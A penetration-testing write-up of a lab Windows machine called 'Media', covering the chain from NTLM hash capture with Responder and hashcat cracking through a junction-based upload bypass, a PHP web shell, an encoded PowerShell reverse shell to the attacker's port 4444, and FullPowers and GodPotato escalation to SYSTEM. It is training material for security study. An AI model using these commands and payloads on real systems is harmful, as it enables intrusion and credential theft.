



## Summary
The Media target was fully compromised, resulting in SYSTEM-level access. The attack chain began with capturing an NTLMv2 hash via a forced authentication vulnerability using `ntlm_theft.py` and Responder. After cracking the hash, initial access was established via SSH as a standard user. Local enumeration uncovered a web application source code revealing an insecure file upload mechanism. By leveraging a directory junction (`mklink`), the upload path was redirected to the web root, enabling an arbitrary file upload and subsequent remote code execution. Privilege escalation was achieved by restoring missing service account privileges using FullPowers, followed by exploiting DCOM via GodPotato to execute commands as `NT AUTHORITY\SYSTEM`.
## Target Information
- **Machine Name:** Media
- **Operating System:** Windows (Build 10.0.20348)
- **Attack Type:** NTLM Theft → Junction-based Arbitrary File Upload → Token Impersonation
- **Result:** Full system compromise (SYSTEM)
## Initial Enumeration
Nmap Scan
```bash
nmap -p- 10.129.234.67 -Pn -A -vv -T4 

PORT     STATE SERVICE       REASON          VERSION
22/tcp   open  ssh           syn-ack ttl 127 OpenSSH for_Windows_9.5 (protocol 2.0)
80/tcp   open  http          syn-ack ttl 127 Apache httpd 2.4.56 ((Win64) OpenSSL/1.1.1t PHP/8.1.17)
|_http-title: ProMotion Studio
|_http-favicon: Unknown favicon MD5: 556F31ACD686989B1AFCF382C05846AA
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.56 (Win64) OpenSSL/1.1.1t PHP/8.1.17
3389/tcp open  ms-wbt-server syn-ack ttl 127 Microsoft Terminal Services
| rdp-ntlm-info: 
|   Target_Name: MEDIA
|   NetBIOS_Domain_Name: MEDIA
|   NetBIOS_Computer_Name: MEDIA
|   DNS_Domain_Name: MEDIA
|   DNS_Computer_Name: MEDIA
|   Product_Version: 10.0.20348
|_  System_Time: 2026-02-17T23:48:59+00:00
|_ssl-date: 2026-02-17T23:49:04+00:00; +38s from scanner time.
| ssl-cert: Subject: commonName=MEDIA
| Issuer: commonName=MEDIA
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2026-02-16T23:43:49
| Not valid after:  2026-08-18T23:43:49
| MD5:     6209 d8bb 278b 06c4 b0a8 c4b2 7a4e 3d88
| SHA-1:   1072 e655 4449 0255 44fd d769 690c 0454 a3f8 c5fc
| SHA-256: b054 d818 5857 9a45 4c59 ec8a 5aa3 0e29 4800 97a3 5997 ceab 7084 2d46 d255 8ca2
```
**Nmap** **Summary**

| Port | Service | Version                           |
| ---- | ------- | --------------------------------- |
| 22   | SSH     | OpenSSH for_Windows_9.5           |
| 80   | HTTP    | Apache 2.4.56 (Win64, PHP/8.1.17) |
| 3389 | RDP     | Microsoft Terminal Services       |
### Web Enumeration
Directory brute-forcing with Gobuster on `http://media.htb` revealed standard directories (`/assets`, `/css`, `/js`) and an `index.php` file. Subdomain fuzzing with Wfuzz yielded no additional virtual hosts.
```bash
gobuster dir \                                          
  -u http://media.htb \   
  -w /usr/share/seclists/Discovery/Web-Content/common.txt \
  -t 30

===============================================================
Gobuster v3.8.2
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://media.htb
[+] Method:                  GET
[+] Threads:                 30
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.8.2
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
.htaccess            (Status: 403) [Size: 299]
.htpasswd            (Status: 403) [Size: 299]
.hta                 (Status: 403) [Size: 299]
assets               (Status: 301) [Size: 332] [--> http://media.htb/assets/]
aux                  (Status: 403) [Size: 299]
cgi-bin/             (Status: 403) [Size: 299]
com1                 (Status: 403) [Size: 299]
com3                 (Status: 403) [Size: 299]
com4                 (Status: 403) [Size: 299]
com2                 (Status: 403) [Size: 299]
con                  (Status: 403) [Size: 299]
css                  (Status: 301) [Size: 329] [--> http://media.htb/css/]
index.php            (Status: 200) [Size: 18617]
js                   (Status: 301) [Size: 328] [--> http://media.htb/js/]
licenses             (Status: 403) [Size: 418]
lpt2                 (Status: 403) [Size: 299]
lpt1                 (Status: 403) [Size: 299]
examples             (Status: 503) [Size: 399]
nul                  (Status: 403) [Size: 299]
phpmyadmin           (Status: 403) [Size: 418]
prn                  (Status: 403) [Size: 299]
render?url=https://www.google.com (Status: 403) [Size: 299]
server-status        (Status: 403) [Size: 418]
server-info          (Status: 403) [Size: 418]
webalizer            (Status: 403) [Size: 418]
dns-query?name=google.com&type=A (Status: 403) [Size: 299]
dns-query?dns=q80BAAABAAAAAAAAA3d3dwdleGFtcGxlA2NvbQAAAQAB (Status: 403) [Size: 299]
Progress: 4746 / 4746 (100.00%)
===============================================================
Finished
===============================================================
```

```bash
wfuzz -u http://media.htb \
  -H "Host: FUZZ.wingdata.htb" \
  -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt
```

I simply tried to upload an jpeg image weather it does blacklist or whitelist it but it does allow  any form of file to be uploaded 


## 2. Credential Extraction & Initial Access
### NTLM Hash Capture

A forced authentication attack was initiated using `ntlm_theft.py` to generate a malicious payload. Responder was set up to listen on the `tun0` interface, successfully capturing an NTLMv2 hash for the user `enox`
```bash
python3 ntlm_theft.py -g all -s 10.10.14.101 -f media

```

Running responder to capture NTLM hash
```bash
sudo responder -I tun0

```
**Password Cracking**
The captured hash was cracked using Hashcat and the `rockyou.txt` wordlist:
```bash
hashcat enox.txt /usr/share/wordlists/rockyou.txt
ENOX::MEDIA:c7350aa3c6ebeba7:88e855a7d0f68ef46994d271f2253484:010100000000000000680bc16aa0dc01901ca7a8d918805d0000000002000800490044003800530001001e00570049004e002d003400410032004d00540044004200470056003200360004003400570049004e002d003400410032004d0054004400420047005600320036002e0049004400380053002e004c004f00430041004c000300140049004400380053002e004c004f00430041004c000500140049004400380053002e004c004f00430041004c000700080000680bc16aa0dc0106000400020000000800300030000000000000000000000000300000c6f48c2df49744fc4d5c376de78f57228104315e643afac491d23c0a032eb5f00a001000000000000000000000000000000000000900220063006900660073002f00310030002e00310030002e00310034002e003100300031000000000000000000:1234virus@

```
- **Username:** enox
- **Password:** 1234virus@
Using these credentials, SSH access was established, and the user flag (`691054e7c62f3387983f650e8bca1bc5`) was obtained from `C:\Users\enox\Desktop`
```bash
ssh enox@10.129.234.67
enox@MEDIA C:\Users\enox\Desktop>dir
 Volume in drive C has no label.
 Volume Serial Number is EAD8-5D48

 Directory of C:\Users\enox\Desktop

10/02/2023  10:04 AM    <DIR>          .
10/02/2023  09:26 AM    <DIR>          ..
02/17/2026  03:44 PM                34 user.txt
               1 File(s)             34 bytes
               2 Dir(s)   7,065,866,240 bytes free

enox@MEDIA C:\Users\enox\Desktop>type user.txt
691054e7c62f3387983f650e8bca1bc5

enox@MEDIA C:\Users\enox\Desktop>

```
## 3. Web Application Analysis & Exploitation

### Source Code Review
Local file enumeration revealed a PowerShell script (`review.ps1`) in the user's Documents folder and a web upload directory located at `C:\Windows\Tasks\Uploads\`.
```powershell
PS C:\Users\enox> Get-ChildItem -Recurse  


    Directory: C:\Users\enox


Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
d-r---         10/2/2023  11:04 AM                Desktop
d-r---         10/2/2023  11:04 AM                Documents                                            
d-r---          5/8/2021   1:20 AM                Downloads
d-r---          5/8/2021   1:20 AM                Favorites
d-r---          5/8/2021   1:20 AM                Links
d-r---          5/8/2021   1:20 AM                Music
d-r---          5/8/2021   1:20 AM                Pictures
d-----          5/8/2021   1:20 AM                Saved Games
d-r---          5/8/2021   1:20 AM                Videos


    Directory: C:\Users\enox\Desktop


Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
-ar---         2/17/2026   3:44 PM             34 user.txt


    Directory: C:\Users\enox\Documents


Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
-a----         10/2/2023   6:00 PM           2841 review.ps1


PS C:\Users\enox>

```


### Privilege Escalation

**System enumeration**

```powershell
PS C:\Users\enox\Documents> whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                    State
============================= ============================== =======
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set Enabled
```
this directory contains the uploaded file from the website
```powershell
PS C:\Windows\Tasks\Uploads> ls


    Directory: C:\Windows\Tasks\Uploads


Mode                 LastWriteTime         Length Name                                                 
----                 -------------         ------ ----                                                 
d-----         2/20/2026   7:05 PM                957d2b09f7b95aa06bddc905fddc3500                     
-a----         2/20/2026   7:06 PM              0 todo.txt                                            
```


Reviewing the PHP source code handling the uploads revealed the backend logic:
1. Uploads are saved in an MD5 hash-named folder based on the user's Firstname, Lastname, and Email.    
2. The application checks for malicious extensions but writes the file path directly to the created directory.
```php
<?php
error_reporting(0);

    // Your PHP code for handling form submission and file upload goes here.
    $uploadDir = 'C:/Windows/Tasks/Uploads/'; // Base upload directory

    if ($_SERVER["REQUEST_METHOD"] == "POST" && isset($_FILES["fileToUpload"])) {
        $firstname = filter_var($_POST["firstname"], FILTER_SANITIZE_STRING);
        $lastname = filter_var($_POST["lastname"], FILTER_SANITIZE_STRING);
        $email = filter_var($_POST["email"], FILTER_SANITIZE_STRING);

        // Create a folder name using the MD5 hash of Firstname + Lastname + Email
        $folderName = md5($firstname . $lastname . $email);

        // Create the full upload directory path
        $targetDir = $uploadDir . $folderName . '/';

        // Ensure the directory exists; create it if not
        if (!file_exists($targetDir)) {
            mkdir($targetDir, 0777, true);
        }

        // Sanitize the filename to remove unsafe characters
        $originalFilename = $_FILES["fileToUpload"]["name"];
        $sanitizedFilename = preg_replace("/[^a-zA-Z0-9._]/", "", $originalFilename);


        // Build the full path to the target file
        $targetFile = $targetDir . $sanitizedFilename;

        if (move_uploaded_file($_FILES["fileToUpload"]["tmp_name"], $targetFile)) {
            echo "<script>alert('Your application was successfully submitted. Our HR shall review your video and get back to you.');</script>";

            // Update the todo.txt file
            $todoFile = $uploadDir . 'todo.txt';
            $todoContent = "Filename: " . $originalFilename . ", Random Variable: " . $folderName . "\n";

            // Append the new line to the file
            file_put_contents($todoFile, $todoContent, FILE_APPEND);
        } else {
            echo "<script>alert('Uh oh, something went wrong... Please submit again');</script>";       
        }
    }
    ?>
```



### Arbitrary File Upload via Junction
To bypass execution restrictions in the `Tasks\Uploads` directory, the existing MD5-hashed upload folder was deleted, and a Windows Directory Junction was created to map the upload path directly to the XAMPP web root
```powershell
PS C:\Windows\Tasks\Uploads> rm .\0eb9b94ea5d3f250dbd2d872445018bc\shell.php
PS C:\Windows\Tasks\Uploads> rm .\0eb9b94ea5d3f250dbd2d872445018bc\
PS C:\Windows\Tasks\Uploads> cmd /c mklink /j C:\Windows\Tasks\Uploads\0eb9b94ea5d3f250dbd2d872445018bc C:\xampp\htdocs\
Junction created for C:\Windows\Tasks\Uploads\0eb9b94ea5d3f250dbd2d872445018bc <<===>> C:\xampp\htdocs\ 
PS C:\Windows\Tasks\Uploads>

```
A PHP web shell (`shell.php`) was then uploaded through the web application. Because of the junction, the file was written to `C:\xampp\htdocs\shell.php`.


The web shell was triggered via a GET request, executing an encoded PowerShell reverse shell payload that connected back to the attacker's listener on port 4444. This granted access as a service account.
```URL
http://media.htb/shell.php?cmd=powershell%20-e%20JABjAGwAaQBlAG4AdAAgAD0AIABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdAAuAFMAbwBjAGsAZQB0AHMALgBUAEMAUABDAGwAaQBlAG4AdAAoACIAMQAwAC4AMQAwAC4AMQA2AC4AMwAzACIALAA0ADQANAA0ACkAOwAkAHMAdAByAGUAYQBtACAAPQAgACQAYwBsAGkAZQBuAHQALgBHAGUAdABTAHQAcgBlAGEAbQAoACkAOwBbAGIAeQB0AGUAWwBdAF0AJABiAHkAdABlAHMAIAA9ACAAMAAuAC4ANgA1ADUAMwA1AHwAJQB7ADAAfQA7AHcAaABpAGwAZQAoACgAJABpACAAPQAgACQAcwB0AHIAZQBhAG0ALgBSAGUAYQBkACgAJABiAHkAdABlAHMALAAgADAALAAgACQAYgB5AHQAZQBzAC4ATABlAG4AZwB0AGgAKQApACAALQBuAGUAIAAwACkAewA7ACQAZABhAHQAYQAgAD0AIAAoAE4AZQB3AC0ATwBiAGoAZQBjAHQAIAAtAFQAeQBwAGUATgBhAG0AZQAgAFMAeQBzAHQAZQBtAC4AVABlAHgAdAAuAEEAUwBDAEkASQBFAG4AYwBvAGQAaQBuAGcAKQAuAEcAZQB0AFMAdAByAGkAbgBnACgAJABiAHkAdABlAHMALAAwACwAIAAkAGkAKQA7ACQAcwBlAG4AZABiAGEAYwBrACAAPQAgACgAaQBlAHgAIAAkAGQAYQB0AGEAIAAyAD4AJgAxACAAfAAgAE8AdQB0AC0AUwB0AHIAaQBuAGcAIAApADsAJABzAGUAbgBkAGIAYQBjAGsAMgAgAD0AIAAkAHMAZQBuAGQAYgBhAGMAawAgACsAIAAiAFAAUwAgACIAIAArACAAKABwAHcAZAApAC4AUABhAHQAaAAgACsAIAAiAD4AIAAiADsAJABzAGUAbgBkAGIAeQB0AGUAIAA9ACAAKABbAHQAZQB4AHQALgBlAG4AYwBvAGQAaQBuAGcAXQA6ADoAQQBTAEMASQBJACkALgBHAGUAdABCAHkAdABlAHMAKAAkAHMAZQBuAGQAYgBhAGMAawAyACkAOwAkAHMAdAByAGUAYQBtAC4AVwByAGkAdABlACgAJABzAGUAbgBkAGIAeQB0AGUALAAwACwAJABzAGUAbgBkAGIAeQB0AGUALgBMAGUAbgBnAHQAaAApADsAJABzAHQAcgBlAGEAbQAuAEYAbAB1AHMAaAAoACkAfQA7ACQAYwBsAGkAZQBuAHQALgBDAGwAbwBzAGUAKAApAA==
```

```bash
┌──(penguin㉿0X0F)-[~/CPTS/CPTS official Pathway/Media]
└─$ nc -lvnp 4444      
listening on [any] 4444 ...
connect to [10.10.16.33] from (UNKNOWN) [10.129.234.67] 56117

PS C:\xampp\htdocs> 

```

### Token Privilege Restoration Using FullPowers
Checking the current privileges (`whoami /priv`) indicated that the shell was running in a restricted service context with missing privileges
```powershell
PS C:\> whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                         State   
============================= =================================== ========
SeTcbPrivilege                Act as part of the operating system Disabled
SeChangeNotifyPrivilege       Bypass traverse checking            Enabled 
SeCreateGlobalPrivilege       Create global objects               Enabled 
SeIncreaseWorkingSetPrivilege Increase a process working set      Disabled
SeTimeZonePrivilege           Change the time zone                Disabled
PS C:\> 

```
To restore the default token privileges for the service account, `FullPowers.exe` was executed, spawning a new reverse shell with the necessary privileges enabled

```bash

PS C:\ProgramData> .\FullPowers.exe -c "powershell -e JABjAGwAaQBlAG4AdAAgAD0AIABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdAAuAFMAbwBjAGsAZQB0AHMALgBUAEMAUABDAGwAaQBlAG4AdAAoACIAMQAwAC4AMQAwAC4AMQA2AC4AMwAzACIALAA0ADQANAA0ACkAOwAkAHMAdAByAGUAYQBtACAAPQAgACQAYwBsAGkAZQBuAHQALgBHAGUAdABTAHQAcgBlAGEAbQAoACkAOwBbAGIAeQB0AGUAWwBdAF0AJABiAHkAdABlAHMAIAA9ACAAMAAuAC4ANgA1ADUAMwA1AHwAJQB7ADAAfQA7AHcAaABpAGwAZQAoACgAJABpACAAPQAgACQAcwB0AHIAZQBhAG0ALgBSAGUAYQBkACgAJABiAHkAdABlAHMALAAgADAALAAgACQAYgB5AHQAZQBzAC4ATABlAG4AZwB0AGgAKQApACAALQBuAGUAIAAwACkAewA7ACQAZABhAHQAYQAgAD0AIAAoAE4AZQB3AC0ATwBiAGoAZQBjAHQAIAAtAFQAeQBwAGUATgBhAG0AZQAgAFMAeQBzAHQAZQBtAC4AVABlAHgAdAAuAEEAUwBDAEkASQBFAG4AYwBvAGQAaQBuAGcAKQAuAEcAZQB0AFMAdAByAGkAbgBnACgAJABiAHkAdABlAHMALAAwACwAIAAkAGkAKQA7ACQAcwBlAG4AZABiAGEAYwBrACAAPQAgACgAaQBlAHgAIAAkAGQAYQB0AGEAIAAyAD4AJgAxACAAfAAgAE8AdQB0AC0AUwB0AHIAaQBuAGcAIAApADsAJABzAGUAbgBkAGIAYQBjAGsAMgAgAD0AIAAkAHMAZQBuAGQAYgBhAGMAawAgACsAIAAiAFAAUwAgACIAIAArACAAKABwAHcAZAApAC4AUABhAHQAaAAgACsAIAAiAD4AIAAiADsAJABzAGUAbgBkAGIAeQB0AGUAIAA9ACAAKABbAHQAZQB4AHQALgBlAG4AYwBvAGQAaQBuAGcAXQA6ADoAQQBTAEMASQBJACkALgBHAGUAdABCAHkAdABlAHMAKAAkAHMAZQBuAGQAYgBhAGMAawAyACkAOwAkAHMAdAByAGUAYQBtAC4AVwByAGkAdABlACgAJABzAGUAbgBkAGIAeQB0AGUALAAwACwAJABzAGUAbgBkAGIAeQB0AGUALgBMAGUAbgBnAHQAaAApADsAJABzAHQAcgBlAGEAbQAuAEYAbAB1AHMAaAAoACkAfQA7ACQAYwBsAGkAZQBuAHQALgBDAGwAbwBzAGUAKAApAA==" -z

```
SYSTEM Execution
With `SeImpersonatePrivilege` successfully enabled in the new session,
```powershell
PS C:\Windows\system32> whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                               State  
============================= ========================================= =======
SeAssignPrimaryTokenPrivilege Replace a process level token             Enabled
SeIncreaseQuotaPrivilege      Adjust memory quotas for a process        Enabled
SeAuditPrivilege              Generate security audits                  Enabled
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled
SeImpersonatePrivilege        Impersonate a client after authentication Enabled
SeCreateGlobalPrivilege       Create global objects                     Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set            Enabled
PS C:\Windows\system32> 

```
 the GodPotato exploit was transferred to the target and was used for local privilege escalation by abusing Windows **DCOM over RPC inter‑process communication**. The exploit creates a malicious **named pipe** and coerces the SYSTEM‑level **RPCSS (DCOM service)** to authenticate to it. When RPCSS connects to the pipe, the process gains a SYSTEM impersonation token via `SeImpersonatePrivilege`, which is then used to spawn a new process as **NT AUTHORITY\SYSTEM**, resulting in full privilege escalation.
```bash
┌──(penguin㉿0X0F)-[~/GodPotato]
└─$ sshpass -p '1234virus@' scp GodPotato-NET4.exe enox@10.129.234.67:/ProgramData/
** WARNING: connection is not using a post-quantum key exchange algorithm.
** This session may be vulnerable to "store now, decrypt later" attacks.
** The server may need to be upgraded. See https://openssh.com/pq.html
```
The system was fully compromised, and the root flag
```powersehll
PS C:\ProgramData> .\GodPotato-NET4.exe -cmd "C:\Windows\System32\cmd.exe /c type C:\Users\Administrator\Desktop\root.txt"
[*] CombaseModule: 0x140704578207744
[*] DispatchTable: 0x140704580794696
[*] UseProtseqFunction: 0x140704580088000
[*] UseProtseqFunctionParamCount: 6
[*] HookRPC
[*] Start PipeServer
[*] CreateNamedPipe \\.\pipe\2a6a6899-a952-40a3-a527-9cfb3ee363ee\pipe\epmapper
[*] Trigger RPCSS
[*] DCOM obj GUID: 00000000-0000-0000-c000-000000000046
[*] DCOM obj IPID: 0000cc02-0174-ffff-bd51-62c688daec54
[*] DCOM obj OXID: 0xae6f777e27add928
[*] DCOM obj OID: 0x3592fb00165b08c9
[*] DCOM obj Flags: 0x281
[*] DCOM obj PublicRefs: 0x0
[*] Marshal Object bytes len: 100
[*] UnMarshal Object
[*] Pipe Connected!
[*] CurrentUser: NT AUTHORITY\NETWORK SERVICE
[*] CurrentsImpersonationLevel: Impersonation
[*] Start Search System Token
[*] PID : 880 Token:0x760  User: NT AUTHORITY\SYSTEM ImpersonationLevel: Impersonation
[*] Find System Token : True
[*] UnmarshalObject: 0x80070776
[*] CurrentUser: NT AUTHORITY\SYSTEM
[*] process start with pid 3224
bd5065e2683eb4e7fb7aefea8aa994b6
PS C:\ProgramData> 
```
